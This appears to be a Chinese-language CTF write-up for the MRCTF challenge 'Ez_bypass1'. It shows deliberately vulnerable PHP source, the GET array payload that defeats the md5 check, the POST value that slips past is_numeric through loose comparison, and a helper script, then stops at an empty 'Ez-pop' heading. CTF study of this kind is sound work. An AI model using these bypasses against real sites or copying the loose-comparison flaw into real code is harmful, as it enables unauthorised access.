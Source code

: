 @[toc](文章目录)

## Ez_bypass1

打开环境，我们发现直接给了代码

整理过后：

```php
<?php
$flag='MRCTF{xxxxxxxxxxxxxxxxxxxxxxxxx}';
if(isset($_GET['gg'])&&isset($_GET['id'])) {
    $id=$_GET['id']; $gg=$_GET['gg'];
    if (md5($id) === md5($gg) && $id !== $gg) {
        echo 'You got the first step';
        if(isset($_POST['passwd'])) {
            $passwd=$_POST['passwd'];
            if (!is_numeric($passwd)) {
                if($passwd==1234567) {
                    echo 'Good Job!';
                    highlight_file('flag.php');
                    die('By Retr_0'); }
                else { echo "can you think twice??"; } }
            else{ echo 'You can not get it !'; } }
        else{ die('only one way to get the flag'); } }
    else { echo "You are not a real hacker!"; } }
else{ die('Please input first'); } 
```

就是个简单的php特性绕过

payload

``` 
GET:gg[]=1&id[]=2    绕过md5的很熟悉了

POST:passwd=1234567a 绕过is_numeric()，我们也熟悉，但是可以用脚本
```

脚本内容

```
<?php
for($i=0;$i<=128;$i++){
    $x='1234567'.chr($i);
    if(!is_numeric($x)){
        if($x==1234567){
            echo urlencode($x).'-->';
            echo $x.PHP_EOL;
        }
    }
}
```

## Ez-pop

